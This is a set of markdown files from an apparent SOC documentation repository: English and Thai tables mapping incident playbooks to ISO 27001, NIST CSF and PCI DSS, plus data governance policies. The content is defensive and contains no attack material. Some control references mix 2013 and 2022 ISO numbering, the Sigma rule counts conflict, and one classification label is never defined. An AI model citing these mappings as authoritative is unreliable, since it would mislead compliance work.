| **PB-16** Cloud IAM Anomaly | A.5.23 (Cloud services), A.8.2 (Privileged access rights) | DE.AE-2, DE.CM-3, PR.AC-4 | 7.1, 8.3, 10.6.1 |
| **PB-17** Business Email Compromise | A.5.14 (Information transfer), A.8.7 (Malware protection) | DE.AE-3, RS.AN-1, RS.MI-1 | 5.3, 12.10.5 |
| **PB-18** Exploit | A.8.8 (Technical vulnerability management), A.8.28 (Secure coding) | DE.CM-8, DE.AE-3, RS.MI-1 | 6.3.3, 11.3, 11.5.1 |
| **PB-19** Lost/Stolen Device | A.7.9 (Security of assets off-premises), A.8.1 (User endpoint devices) | RS.MI-1, RS.AN-1, PR.DS-3 | 9.4, 9.5, 12.10.5 |
| **PB-20** Log Clearing | A.8.15 (Logging), A.8.17 (Clock synchronization) | DE.CM-3, DE.AE-5, PR.PT-1 | 10.3, 10.5, 10.7 |

### PB-21 to PB-25 (New Playbooks)

| Playbook | ISO 27001:2022 | NIST CSF 2.0 | PCI DSS v4.0 |
|:---|:---|:---|:---|
| **PB-21** Supply Chain Attack | A.5.21 (ICT supply chain), A.5.22 (Supplier monitoring) | ID.SC-1, ID.SC-2, DE.CM-6, RS.MI-1 | 6.3.2, 12.8, 12.9 |
| **PB-22** API Abuse | A.8.26 (Application security), A.8.25 (Secure development lifecycle) | DE.CM-6, DE.AE-2, PR.AC-7 | 6.2, 6.4, 11.5.1 |
| **PB-23** Cryptomining | A.8.7 (Malware protection), A.8.20 (Network security) | DE.CM-4, DE.AE-3, RS.MI-1 | 5.2, 5.3, 11.5.1 |
| **PB-24** DNS Tunneling | A.8.20 (Network security), A.8.23 (Web filtering) | DE.CM-1, DE.AE-2, RS.MI-1 | 1.3, 10.6.1, 11.5.1 |
| **PB-25** Zero-Day Exploit | A.8.8 (Vulnerability management), A.5.7 (Threat intelligence) | DE.CM-8, RS.AN-5, RS.MI-1 | 6.3.3, 11.3, 12.10.5 |

### PB-26 to PB-30 (Coverage Expansion)

| Playbook | ISO 27001:2022 | NIST CSF 2.0 | PCI DSS v4.0 |
|:---|:---|:---|:---|
| **PB-26** MFA Bypass / Token Theft | A.8.5 (Secure authentication), A.5.17 (Authentication info) | DE.AE-2, DE.CM-3, PR.AC-7 | 8.3, 8.4, 8.5 |
| **PB-27** Cloud Storage Exposure | A.5.23 (Cloud services), A.8.10 (Information deletion) | DE.CM-7, RS.MI-1, PR.DS-1 | 3.4, 3.5, 10.6.1 |
| **PB-28** Mobile Device Compromise | A.8.1 (User endpoint devices), A.7.9 (Off-premises assets) | DE.CM-4, RS.MI-1, PR.AC-3 | 9.4, 9.5, 12.3 |
| **PB-29** Shadow IT | A.5.23 (Cloud services), A.8.23 (Web filtering) | DE.CM-7, ID.AM-2, PR.AC-4 | 6.4, 12.8, 12.10.5 |
| **PB-30** OT/ICS Incident | A.8.20 (Network security), A.8.22 (Network segregation) | DE.CM-1, RS.RP-1, PR.AC-5 | 1.3, 11.4, 11.5.1 |

---

## SOC Operational Controls Mapping

| SOC Control | ISO 27001:2022 | NIST CSF 2.0 | PCI DSS v4.0 |
|:---|:---|:---|:---|
| **24/7 SOC Monitoring** | A.8.16 (Monitoring activities) | DE.CM-1, DE.CM-6, DE.CM-7 | 10.6.1, 10.6.3, 12.10 |
| **Incident Response Framework** | A.5.24 (IR planning), A.5.26 (Response to incidents) | RS.RP-1, RS.CO-1, RS.AN-1 | 12.10.1, 12.10.2 |
| **Severity Classification (P1–P4)** | A.5.25 (Assessment of incidents) | RS.AN-4, RS.CO-3 | 12.10.1, 12.10.4 |
| **Escalation Procedures** | A.5.26 (Response to incidents) | RS.CO-2, RS.CO-4, RS.RP-1 | 12.10.1, 12.10.6 |
| **Shift Handover Process** | A.5.37 (Documented operating procedures) | PR.IP-9, RS.CO-1 | 12.10.2 |
| **Detection Rules (Sigma)** | A.8.16 (Monitoring activities) | DE.CM-1, DE.DP-2, DE.DP-5 | 10.6.1, 11.5.1 |
| **MITRE ATT&CK Mapping** | A.5.7 (Threat intelligence) | ID.RA-2, DE.AE-1 | 12.10.5 |
| **Post-Incident Review** | A.5.27 (Learning from incidents) | RS.IM-1, RS.IM-2 | 12.10.6 |
| **Log Retention (≥1 year)** | A.8.15 (Logging) | PR.PT-1, DE.CM-3 | 10.5, 10.7 |
| **Vulnerability Management** | A.8.8 (Technical vulnerability management) | DE.CM-8, ID.RA-1 | 6.3.3, 11.3 |
| **Access Control / IAM** | A.8.2, A.8.3, A.5.15 | PR.AC-1, PR.AC-4 | 7.1, 7.2, 8.2 |
| **Security Awareness Training** | A.6.3 (Information security awareness) | PR.AT-1, PR.AT-2 | 12.6.1, 12.6.2 |
| **Data Classification** | A.5.12 (Classification of information) | ID.AM-5, PR.DS-1 | 3.2, 3.4, 9.6 |
| **Backup & Recovery** | A.8.13 (Information backup) | PR.IP-4, RC.RP-1 | 12.10.1 |

---

## Framework Coverage Summary

### ISO 27001:2022 Coverage

| Annex A Domain | Controls Covered | Key Controls |
|:---|:---:|:---|
| A.5 Organizational | 12 / 37 | A.5.7, A.5.12, A.5.21, A.5.24–A.5.27 |
| A.6 People | 2 / 8 | A.6.1, A.6.3 |
| A.7 Physical | 1 / 14 | A.7.9 |
| A.8 Technological | 18 / 34 | A.8.2, A.8.5, A.8.7, A.8.8, A.8.12, A.8.15, A.8.16, A.8.20 |

### NIST CSF 2.0 Coverage

| Function | Categories Covered | SOC Coverage Level |
|:---|:---:|:---|
| **Identify (ID)** | ID.AM, ID.RA, ID.SC | 🟡 Partial — asset inventory & supply chain |
| **Protect (PR)** | PR.AC, PR.AT, PR.DS, PR.IP, PR.PT | 🟡 Partial — access control & training |
| **Detect (DE)** | DE.AE, DE.CM, DE.DP | 🟢 Strong — 28 Sigma rules + monitoring |
| **Respond (RS)** | RS.RP, RS.CO, RS.AN, RS.MI, RS.IM | 🟢 Strong — 30 playbooks + severity matrix |
| **Recover (RC)** | RC.RP, RC.IM, RC.CO | 🟡 Partial — backup & communication |

### PCI DSS v4.0 Coverage

| Requirement | SOC Coverage |
|:---|:---|
| Req 1 — Network Security Controls | 🟢 PB-12, PB-13, PB-24 |
| Req 3 — Protect Stored Account Data | 🟡 PB-08, Data Classification |
| Req 5 — Malware Protection | 🟢 PB-01, PB-02, PB-03, PB-23 |
| Req 6 — Secure Development | 🟢 PB-10, PB-18, PB-21, PB-22, PB-25 |
| Req 7 — Restrict Access | 🟢 PB-07, PB-14, PB-15, PB-16 |
| Req 8 — Identify Users | 🟢 PB-04, PB-05, PB-06 |
| Req 9 — Physical Access | 🟡 PB-19 |
| Req 10 — Log & Monitor | 🟢 28 Sigma rules + SOC monitoring |
| Req 11 — Test Security | 🟢 Detection rules + simulation guide |
| Req 12 — Security Policies | 🟢 IR framework + severity matrix |

---

## Audit Quick Reference

### For ISO 27001 Auditors

> "Show me your incident response procedures."  
→ [IR Framework](../05_Incident_Response/Framework.en.md) + [Severity Matrix](../05_Incident_Response/Severity_Matrix.en.md) + any Playbook (PB-01 to PB-30)

> "Show me your monitoring and detection capabilities."  
→ [Detection Rules Index](../08_Detection_Engineering/README.md) (33 Sigma rules) + [MITRE ATT&CK Heatmap](../tools/mitre_attack_heatmap.html)

> "Show me evidence of incident learning."  
→ [Post-Incident Review section](../05_Incident_Response/Framework.en.md) in all playbooks

### For PCI DSS QSA

> "Requirement 10.6.1 — Daily log reviews?"  
→ [SOC Metrics & KPIs](../06_Operations_Management/SOC_Metrics.en.md) + 24/7 monitoring procedures

> "Requirement 12.10.1 — Incident response plan?"  
→ [IR Framework](../05_Incident_Response/Framework.en.md) + [Severity Matrix](../05_Incident_Response/Severity_Matrix.en.md)

> "Requirement 11.5.1 — Intrusion detection?"  
→ [33 Sigma Detection Rules](../08_Detection_Engineering/README.md) with MITRE ATT&CK mapping

---

## Related Documents

- [IR Framework](../05_Incident_Response/Framework.en.md)
- [Severity Matrix](../05_Incident_Response/Severity_Matrix.en.md)
- [Detection Rules Index](../08_Detection_Engineering/README.md)
- [MITRE ATT&CK Heatmap](../tools/mitre_attack_heatmap.html)
- [SOC Maturity Scorer](../tools/soc_maturity_scorer.html)

## References

- [ISO/IEC 27001:2022](https://www.iso.org/standard/27001)
- [NIST Cybersecurity Framework 2.0](https://www.nist.gov/cyberframework)
- [PCI DSS v4.0](https://www.pcisecuritystandards.org/document_library/)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)


---

## File: 07_Compliance_Privacy/Compliance_Mapping.th.md

# Compliance Mapping — SOC Playbooks × Frameworks (ภาษาไทย)

> **รหัสเอกสาร:** COMP-MAP-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **เจ้าของ:** SOC Manager / Compliance Officer  

---

## วัตถุประสงค์

เอกสารนี้ map **SOC Playbook 30 ชุด**, **Sigma Detection Rule 33 กฎ** และ SOC Controls ต่างๆ เข้ากับ 3 กรอบมาตรฐาน:

- **ISO/IEC 27001:2022** — ระบบจัดการความมั่นคงปลอดภัยสารสนเทศ
- **NIST Cybersecurity Framework (CSF) 2.0** — กรอบไซเบอร์สหรัฐฯ
- **PCI DSS v4.0** — มาตรฐานความปลอดภัยอุตสาหกรรมบัตรชำระเงิน

ใช้สำหรับ **เตรียม Audit**, **วิเคราะห์ช่องว่าง** และ **แสดงหลักฐาน** ต่อผู้ตรวจสอบ

---

## Playbook → Framework Mapping

### PB-01 ถึง PB-10 (Playbooks หลัก)

| Playbook | ISO 27001:2022 | NIST CSF 2.0 | PCI DSS v4.0 |
|:---|:---|:---|:---|
| **PB-01** ฟิชชิ่ง | A.5.23, A.8.7 (ป้องกันมัลแวร์) | DE.AE-2, DE.AE-3, RS.AN-1, RS.MI-1 | 5.3, 12.10.5 |
| **PB-02** แรนซัมแวร์ | A.8.7, A.8.13 (สำรองข้อมูล), A.8.14 | DE.AE-3, RS.MI-1, RS.MI-2, RC.RP-1 | 5.2, 5.3, 12.10.5 |
| **PB-03** มัลแวร์ | A.8.7 (ป้องกันมัลแวร์), A.8.23 | DE.CM-4, DE.AE-3, RS.MI-1 | 5.2, 5.3, 11.5.1 |
| **PB-04** Brute Force | A.8.5 (การยืนยันตัวตน), A.5.17 | DE.CM-1, DE.AE-2, PR.AC-7 | 8.2.4, 8.3.4, 10.7 |
| **PB-05** บัญชีถูกยึดครอง | A.5.16 (จัดการตัวตน), A.8.5 | DE.AE-3, RS.AN-1, PR.AC-1 | 8.2, 8.3, 10.6.1 |
| **PB-06** Impossible Travel | A.8.5, A.8.15 (การบันทึก Log) | DE.AE-2, DE.AE-5, RS.AN-1 | 10.6.1, 10.7 |
| **PB-07** ยกระดับสิทธิ์ | A.8.2 (สิทธิ์ Privileged), A.8.18 | DE.CM-3, DE.AE-3, PR.AC-4 | 7.1, 7.2, 10.2.1 |
| **PB-08** ข้อมูลรั่วไหล | A.8.12 (ป้องกันข้อมูลรั่ว), A.8.10 | DE.AE-3, DE.CM-7, RS.MI-1 | 3.4, 10.6.1, 12.10.5 |
| **PB-09** DDoS | A.8.20 (ความปลอดภัยเครือข่าย), A.8.22 | DE.AE-1, RS.MI-1, RS.MI-2 | 11.5.1, 12.10.5 |
| **PB-10** โจมตีเว็บ | A.8.26 (ข้อกำหนดแอป), A.8.28 | DE.CM-6, DE.AE-3, RS.MI-1 | 6.2, 6.4, 11.5.1 |

### PB-11 ถึง PB-20 (Playbooks ขั้นสูง)

| Playbook | ISO 27001:2022 | NIST CSF 2.0 | PCI DSS v4.0 |
|:---|:---|:---|:---|
| **PB-11** Script น่าสงสัย | A.8.7, A.8.19 (ติดตั้งซอฟต์แวร์) | DE.CM-4, DE.AE-3, RS.AN-1 | 5.3, 11.5.1 |
| **PB-12** เคลื่อนตัวข้ามระบบ | A.8.22 (แบ่งแยกเครือข่าย), A.8.20 | DE.CM-1, DE.CM-7, RS.MI-1 | 1.3, 11.4, 11.5.1 |
| **PB-13** C2 Communication | A.8.20, A.8.23 (กรอง Web) | DE.CM-1, DE.AE-2, RS.AN-1 | 1.3, 10.6.1, 11.5.1 |
| **PB-14** Insider Threat | A.5.9, A.6.1 (การคัดกรอง) | DE.CM-3, DE.AE-5, RS.AN-1 | 7.1, 7.2, 10.2.1 |
| **PB-15** Admin ชั่วร้าย | A.8.2 (สิทธิ์ Privileged), A.5.18 | DE.CM-3, DE.AE-3, PR.AC-4 | 7.1, 7.2, 10.2.1 |
| **PB-16** Cloud IAM | A.5.23 (Cloud), A.8.2 | DE.AE-2, DE.CM-3, PR.AC-4 | 7.1, 8.3, 10.6.1 |
| **PB-17** BEC | A.5.14, A.8.7 | DE.AE-3, RS.AN-1, RS.MI-1 | 5.3, 12.10.5 |
| **PB-18** Exploit | A.8.8 (จัดการช่องโหว่), A.8.28 | DE.CM-8, DE.AE-3, RS.MI-1 | 6.3.3, 11.3, 11.5.1 |
| **PB-19** อุปกรณ์หาย | A.7.9 (สินทรัพย์นอกสถานที่), A.8.1 | RS.MI-1, RS.AN-1, PR.DS-3 | 9.4, 9.5, 12.10.5 |
| **PB-20** ลบ Log | A.8.15 (การบันทึก Log), A.8.17 | DE.CM-3, DE.AE-5, PR.PT-1 | 10.3, 10.5, 10.7 |

### PB-21 ถึง PB-25 (Playbooks ใหม่)

| Playbook | ISO 27001:2022 | NIST CSF 2.0 | PCI DSS v4.0 |
|:---|:---|:---|:---|
| **PB-21** Supply Chain | A.5.21 (ห่วงโซ่อุปทาน ICT), A.5.22 | ID.SC-1, ID.SC-2, DE.CM-6, RS.MI-1 | 6.3.2, 12.8, 12.9 |
| **PB-22** API Abuse | A.8.26 (ข้อกำหนดแอป), A.8.25 | DE.CM-6, DE.AE-2, PR.AC-7 | 6.2, 6.4, 11.5.1 |
| **PB-23** ขุดคริปโต | A.8.7 (ป้องกันมัลแวร์), A.8.20 | DE.CM-4, DE.AE-3, RS.MI-1 | 5.2, 5.3, 11.5.1 |
| **PB-24** DNS Tunneling | A.8.20, A.8.23 (กรอง Web) | DE.CM-1, DE.AE-2, RS.MI-1 | 1.3, 10.6.1, 11.5.1 |
| **PB-25** Zero-Day | A.8.8 (จัดการช่องโหว่), A.5.7 | DE.CM-8, RS.AN-5, RS.MI-1 | 6.3.3, 11.3, 12.10.5 |

### PB-26 ถึง PB-30 (ขยาย Coverage)

| Playbook | ISO 27001:2022 | NIST CSF 2.0 | PCI DSS v4.0 |
|:---|:---|:---|:---|
| **PB-26** MFA Bypass / Token Theft | A.8.5 (การยืนยันตัวตน), A.5.17 | DE.AE-2, DE.CM-3, PR.AC-7 | 8.3, 8.4, 8.5 |
| **PB-27** Cloud Storage เปิด Public | A.5.23 (Cloud), A.8.10 | DE.CM-7, RS.MI-1, PR.DS-1 | 3.4, 3.5, 10.6.1 |
| **PB-28** อุปกรณ์มือถือถูกบุกรุก | A.8.1 (อุปกรณ์ผู้ใช้), A.7.9 | DE.CM-4, RS.MI-1, PR.AC-3 | 9.4, 9.5, 12.3 |
| **PB-29** Shadow IT | A.5.23 (Cloud), A.8.23 (กรอง Web) | DE.CM-7, ID.AM-2, PR.AC-4 | 6.4, 12.8, 12.10.5 |
| **PB-30** เหตุการณ์ OT/ICS | A.8.20 (เครือข่าย), A.8.22 | DE.CM-1, RS.RP-1, PR.AC-5 | 1.3, 11.4, 11.5.1 |

---

## สรุป Coverage ตามแต่ละ Framework

### NIST CSF 2.0

| Function | ระดับ Coverage | คำอธิบาย |
|:---|:---:|:---|
| **Identify (ระบุ)** | 🟡 | ครอบคลุมบางส่วน — สินทรัพย์ & Supply Chain |
| **Protect (ป้องกัน)** | 🟡 | ครอบคลุมบางส่วน — Access Control & การฝึกอบรม |
| **Detect (ตรวจจับ)** | 🟢 | ครอบคลุมดี — 33 Sigma Rules + การเฝ้าระวัง |
| **Respond (ตอบสนอง)** | 🟢 | ครอบคลุมดี — 30 Playbooks + ตารางระดับความรุนแรง |
| **Recover (กู้คืน)** | 🟡 | ครอบคลุมบางส่วน — สำรองข้อมูล & สื่อสาร |

### PCI DSS v4.0

| ข้อกำหนด | ระดับ Coverage |
|:---|:---:|
| Req 1 — ควบคุมเครือข่าย | 🟢 |
| Req 5 — ป้องกันมัลแวร์ | 🟢 |
| Req 6 — พัฒนาปลอดภัย | 🟢 |
| Req 7 — ควบคุมการเข้าถึง | 🟢 |
| Req 8 — ระบุตัวตนผู้ใช้ | 🟢 |
| Req 10 — บันทึก Log & เฝ้าระวัง | 🟢 |
| Req 11 — ทดสอบความปลอดภัย | 🟢 |
| Req 12 — นโยบายความปลอดภัย | 🟢 |

---

## Quick Reference สำหรับ Auditor

### ผู้ตรวจ ISO 27001 ถาม:

> "แสดงขั้นตอนการตอบสนองเหตุการณ์"  
→ [IR Framework](../05_Incident_Response/Framework.en.md) + [ตารางความรุนแรง](../05_Incident_Response/Severity_Matrix.th.md) + Playbook ใดก็ได้ (PB-01 ถึง PB-30)

> "แสดงความสามารถในการเฝ้าระวังและตรวจจับ"  
→ [ดัชนี Detection Rules](../08_Detection_Engineering/README.th.md) (33 กฎ Sigma) + [แผนที่ Coverage MITRE ATT&CK](../tools/mitre_attack_heatmap.html)

### QSA ตรวจ PCI DSS ถาม:

> "Req 10.6.1 — ตรวจ Log รายวัน?"  
→ [SOC Metrics & KPIs](../06_Operations_Management/SOC_Metrics.en.md) + ขั้นตอนเฝ้าระวัง 24/7

> "Req 12.10.1 — แผนตอบสนองเหตุการณ์?"  
→ [IR Framework](../05_Incident_Response/Framework.en.md) + [ตารางความรุนแรง](../05_Incident_Response/Severity_Matrix.th.md)

---

## เอกสารที่เกี่ยวข้อง

- [IR Framework](../05_Incident_Response/Framework.en.md)
- [ตารางความรุนแรง](../05_Incident_Response/Severity_Matrix.th.md)
- [ดัชนี Detection Rules](../08_Detection_Engineering/README.th.md)
- [แผนที่ Coverage MITRE ATT&CK](../tools/mitre_attack_heatmap.html)
- [เครื่องมือวัดคะแนน SOC Maturity](../tools/soc_maturity_scorer.html)

## Cross-framework Control Mapping

### Key Control Areas

| Control | ISO 27001 | NIST CSF | PCI DSS | PDPA |
|:---|:---|:---|:---|:---|
| Risk Assessment | A.8 | ID.RA | 12.2 | มาตรา 37 |
| Access Control | A.9 | PR.AC | 7, 8 | มาตรา 37(1) |
| Encryption | A.10 | PR.DS | 3.4, 4.1 | มาตรา 37(1) |
| Logging | A.12 | DE.CM | 10 | มาตรา 37(1) |
| IR Plan | A.16 | RS.RP | 12.10 | มาตรา 37(4) |
| Privacy | - | - | - | มาตรา 23-26 |

### Compliance Status Dashboard

```
ISO 27001: ████████████████████░  93% (7 gaps)
NIST CSF:  ██████████████████░░░  87% (12 gaps)
PCI DSS:   ████████████████░░░░░  80% (15 gaps)
PDPA:      ███████████████████░░  90% (5 gaps)
```

### Annual Compliance Calendar

| เดือน | Activity | Framework |
|:---|:---|:---|
| ม.ค. | Annual risk assessment | ISO 27001 |
| มี.ค. | PCI DSS audit prep | PCI DSS |
| มิ.ย. | PDPA compliance review | PDPA |
| ก.ย. | ISO audit (internal) | ISO 27001 |
| ธ.ค. | NIST CSF self-assessment | NIST CSF |

### Framework Update Tracking

| Framework | Last Update | Next Review |
|:---|:---|:---|
| ISO 27001 | 2022 | Annual |
| NIST CSF | 2.0 (2024) | Annual |
| PCI DSS | 4.0 (2024) | Annual |

## References

- [ISO/IEC 27001:2022](https://www.iso.org/standard/27001)
- [NIST Cybersecurity Framework 2.0](https://www.nist.gov/cyberframework)
- [PCI DSS v4.0](https://www.pcisecuritystandards.org/document_library/)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)


---

## File: 07_Compliance_Privacy/Data_Governance_Policy.en.md

# Data Governance Policy

This policy defines comprehensive standards for data classification, handling, retention, disposal, and access control within the SOC environment. All SOC personnel must follow these guidelines when handling any data.

---

## 1. Data Classification Levels

| Level | Label | Description | Examples | Access Control |
|:---|:---|:---|:---|:---|
| **L4** | 🔴 Restricted | Extremely sensitive, loss would cause severe harm | Credentials, encryption keys, PII (sensitive), payment data | Named individuals only, MFA required |
| **L3** | 🟠 Confidential | Sensitive operational data | Investigation details, IoCs, incident reports, threat intel | SOC team + management, need-to-know |
| **L2** | 🟡 Internal | Internal use, not for external sharing | SOPs, procedures, operational metrics, architecture docs | All employees |
| **L1** | 🟢 Public | Safe for public consumption | Published advisories, open-source tools, public reports | Anyone |

---

## 2. Handling Requirements

### 2.1 Storage

| Classification | Storage Location | Encryption | Backup |
|:---|:---|:---|:---|
| **Restricted** | Encrypted vault, access-logged | AES-256 at rest + in transit | Encrypted backup, separate key |
| **Confidential** | Access-controlled storage | At rest encryption required | Standard encrypted backup |
| **Internal** | Standard enterprise storage | Disk-level encryption | Standard backup |
| **Public** | Any approved storage | Optional | Best effort |

### 2.2 Transmission

| Classification | Allowed Channels | Requirements |
|:---|:---|:---|
| **Restricted** | Encrypted email (S/MIME/PGP), encrypted share | TLP:RED label, end-to-end encryption |
| **Confidential** | Encrypted email, internal chat, VPN | TLP:AMBER label, encryption preferred |
| **Internal** | Internal email, chat, intranet | TLP:GREEN label |
| **Public** | Any channel | TLP:CLEAR label |

### 2.3 Retention & Disposal

| Classification | Retention Period | Disposal Method | Verification |
|:---|:---|:---|:---|
| **Restricted** | Per regulation (PDPA: min 1 year) | Secure delete (DoD 5220.22-M) + log | Written confirmation |
| **Confidential** | 1 year after case closure | Secure delete | Audit log |
| **Internal** | Per policy (typically 3 years) | Standard delete | N/A |
| **Public** | Indefinite | Standard delete | N/A |

---

## 3. SOC-Specific Data Guidelines

### 3.1 Log Data

| Aspect | Requirement |
|:---|:---|
| **Hot storage** | 90 days minimum (SIEM) |
| **Warm storage** | 90 days–1 year (archive/data lake) |
| **Cold storage** | 1–7 years (compliance, legal hold) |
| **Classification** | L2 (Internal) by default, L3 if contains PII/IoCs |

### 3.2 Incident Evidence

| Aspect | Requirement |
|:---|:---|
| **Retention** | 1 year after case closure (or per legal hold) |
| **Chain of custody** | Documented in incident report |
| **Classification** | L3 (Confidential) minimum, L4 if PII involved |
| **Storage** | Read-only, hash-verified, access-logged |

### 3.3 Threat Intelligence

| Aspect | Requirement |
|:---|:---|
| **IoC feeds** | Refresh per feed schedule (5 min–24 hours) |
| **Historical IoCs** | Archive for correlation, review quarterly |
| **TLP handling** | Follow TLP protocol strictly |
| **Classification** | L3 (Confidential), L2 for published advisories |

### 3.4 Personal Data (PII)

| Aspect | Requirement |
|:---|:---|
| **Collection** | Minimize, collect only what's necessary for investigation |
| **Processing** | Follow [PDPA Compliance](PDPA_Compliance.en.md) |
| **Breach notification** | Within 72 hours per PDPA |
| **Classification** | L4 (Restricted) for sensitive PII |

### 3.5 Third-Party Data

| Aspect | Requirement |
|:---|:---|
| **Handling** | Per vendor agreement / NDA terms |
| **Sharing** | Only with authorized parties per contract |
| **Retention** | Per contract terms |
| **Classification** | At minimum L2, typically L3 |

---

## 4. Access Control

| Principle | Implementation |
|:---|:---|
| **Least privilege** | Grant minimum access needed for role |
| **Need-to-know** | L3/L4 data only accessible to those involved in the case |
| **Separation of duties** | Evidence handling requires dual sign-off |
| **Access review** | Quarterly review of all data access permissions |
| **Logging** | All access to L3/L4 data must be logged |

---

## 5. Compliance Mapping

| Framework | Relevant Controls |
|:---|:---|
| **ISO 27001** | A.8.2 (Classification), A.8.3 (Media handling) |
| **NIST 800-53** | SC-28 (Protection at Rest), MP-6 (Media Sanitization) |
| **PDPA** | Section 37 (Security measures), Section 40 (Breach notification) |
| **PCI DSS** | Req 3 (Protect stored data), Req 7 (Restrict access) |

---

## Data Classification Examples for SOC

| Data Type | Classification | TLP | Retention | Access |
|:---|:---|:---|:---|:---|
| SIEM alert metadata | Internal | AMBER | 1 year | All SOC |
| SIEM raw logs (with PII) | Confidential | AMBER | 90 days | T2+ only |
| Forensic disk images | Highly Confidential | RED | Case duration + 1 year | Case team only |
| IOC feeds (public) | Public | CLEAR | Indefinite | All SOC |
| Incident reports (internal) | Confidential | AMBER | 3 years | SOC + Management |
| Vulnerability scan results | Confidential | AMBER | 1 year | SOC + IT |
| Threat intelligence (partner) | Restricted | AMBER/GREEN | 2 years | CTI team |
| Employee PII from investigations | Highly Confidential | RED | Case closure | Lead analyst + DPO |

## Data Lifecycle Management



| Phase | SOC Responsibility | Control |
|:---|:---|:---|
| **Create** | Log collection, evidence capture | Automated via agents/SIEM |
| **Classify** | Apply TLP label, data category | Manual at creation |
| **Store** | Encrypted storage per classification | Automated encryption |
| **Process** | Access only what's needed (minimization) | RBAC enforcement |
| **Share** | Follow TLP sharing rules | DLP monitoring |
| **Archive** | Move to cold storage per retention | Automated lifecycle |
| **Destroy** | Secure deletion with certificate | Verified destruction |

## Data Quality Standards

| Dimension | Definition | SOC Example | Target |
|:---|:---|:---|:---|
| **Completeness** | All required fields populated | Every alert has source, dest, timestamp | > 95% |
| **Accuracy** | Data correctly represents reality | Alert severity matches actual risk | > 90% |
| **Timeliness** | Data available when needed | Logs arrive in SIEM within 5 min | > 99% |
| **Consistency** | Same data in different systems matches | Ticket info matches SIEM data | > 95% |
| **Uniqueness** | No unnecessary duplicates | One ticket per incident (not duplicated) | 100% |

## Related Documents

- [PDPA Compliance](PDPA_Compliance.en.md)
- [Data Handling Protocol](../06_Operations_Management/Data_Handling_Protocol.en.md)
- [Forensic Investigation](../05_Incident_Response/Forensic_Investigation.en.md)
- [Access Control Policy](../06_Operations_Management/Access_Control.en.md)
- [Evidence Collection](../05_Incident_Response/Evidence_Collection.en.md)

## References

- [ISO 27001 — Information Security Management](https://www.iso.org/iso-27001-information-security.html)
- [NIST SP 800-53 — Security Controls](https://csrc.nist.gov/publications/detail/sp/800-53/rev-5/final)
- [TLP Protocol](https://www.first.org/tlp/)


---

## File: 07_Compliance_Privacy/Data_Governance_Policy.th.md

# นโยบายธรรมาภิบาลข้อมูล (Data Governance Policy)

นโยบายนี้กำหนดมาตรฐานสำหรับการจัดระดับ การจัดการ การเก็บรักษา และการทำลายข้อมูลภายในสภาพแวดล้อม SOC บุคลากร SOC ทุกคนต้องปฏิบัติตามแนวปฏิบัตินี้

---

## 1. ระดับการจัดชั้นข้อมูล

| ระดับ | ป้ายกำกับ | ตัวอย่าง | การควบคุมการเข้าถึง |
|:---|:---|:---|:---|
| **L4** | 🔴 จำกัด (Restricted) | Credentials, คีย์เข้ารหัส, PII ที่ละเอียดอ่อน | เฉพาะบุคคลที่ระบุชื่อ + MFA |
| **L3** | 🟠 ลับ (Confidential) | รายละเอียดการสืบสวน, IoCs, รายงาน Incident | ทีม SOC + ผู้บริหาร, need-to-know |
| **L2** | 🟡 ภายใน (Internal) | SOPs, ตัวชี้วัด, เอกสารสถาปัตยกรรม | พนักงานทุกคน |
| **L1** | 🟢 สาธารณะ (Public) | คำแนะนำที่เผยแพร่, เครื่องมือ open-source | ทุกคน |

---

## 2. ข้อกำหนดการจัดการ

### 2.1 การจัดเก็บ

| ระดับ | สถานที่จัดเก็บ | การเข้ารหัส |
|:---|:---|:---|
| **Restricted** | Vault เข้ารหัส, บันทึกการเข้าถึง | AES-256 ทั้ง at rest + in transit |
| **Confidential** | Storage ควบคุมการเข้าถึง | เข้ารหัส at rest |
| **Internal** | Enterprise storage มาตรฐาน | Disk-level encryption |
| **Public** | Storage ที่อนุมัติใดก็ได้ | ตามต้องการ |

### 2.2 การส่งต่อข้อมูล

| ระดับ | ช่องทางที่อนุญาต | ข้อกำหนด |
|:---|:---|:---|
| **Restricted** | อีเมลเข้ารหัส (S/MIME/PGP) | TLP:RED, end-to-end encryption |
| **Confidential** | อีเมลเข้ารหัส, แชทภายใน | TLP:AMBER |
| **Internal** | อีเมลภายใน, แชท, intranet | TLP:GREEN |
| **Public** | ช่องทางใดก็ได้ | TLP:CLEAR |

### 2.3 การเก็บรักษาและทำลาย

| ระดับ | ระยะเวลาเก็บ | วิธีทำลาย |
|:---|:---|:---|
| **Restricted** | ตามกฎหมาย (PDPA: ≥ 1 ปี) | Secure delete + บันทึก |
| **Confidential** | 1 ปีหลังปิดเคส | Secure delete |
| **Internal** | ตามนโยบาย (3 ปี) | Standard delete |
| **Public** | ไม่จำกัด | Standard delete |

---

## 3. แนวปฏิบัติเฉพาะ SOC

### 3.1 ข้อมูล Log

| มิติ | ข้อกำหนด |
|:---|:---|
| **Hot storage** | ≥ 90 วัน (SIEM) |
| **Warm storage** | 90 วัน–1 ปี (archive) |
| **Cold storage** | 1–7 ปี (ตามกฎหมาย) |
| **ระดับชั้น** | L2 เป็นค่าเริ่มต้น, L3 ถ้ามี PII/IoCs |

### 3.2 หลักฐานเหตุการณ์

| มิติ | ข้อกำหนด |
|:---|:---|
| **การเก็บรักษา** | 1 ปีหลังปิดเคส (หรือตาม legal hold) |
| **Chain of custody** | บันทึกในรายงาน incident |
| **ระดับชั้น** | L3 ขั้นต่ำ, L4 ถ้ามี PII |

### 3.3 ข้อมูลส่วนบุคคล (PII)

| มิติ | ข้อกำหนด |
|:---|:---|
| **การเก็บรวบรวม** | เก็บเฉพาะที่จำเป็นสำหรับการสืบสวน |
| **การประมวลผล** | ปฏิบัติตาม [PDPA Compliance](PDPA_Compliance.th.md) |
| **การแจ้งเตือนเหตุรั่วไหล** | ภายใน 72 ชม. ตาม PDPA |
| **ระดับชั้น** | L4 สำหรับ PII ที่ละเอียดอ่อน |

---

## 4. การควบคุมการเข้าถึง

| หลักการ | การดำเนินการ |
|:---|:---|
| **Least privilege** | ให้สิทธิ์ต่ำสุดที่จำเป็นสำหรับบทบาท |
| **Need-to-know** | ข้อมูล L3/L4 เข้าถึงเฉพาะผู้ที่เกี่ยวข้อง |
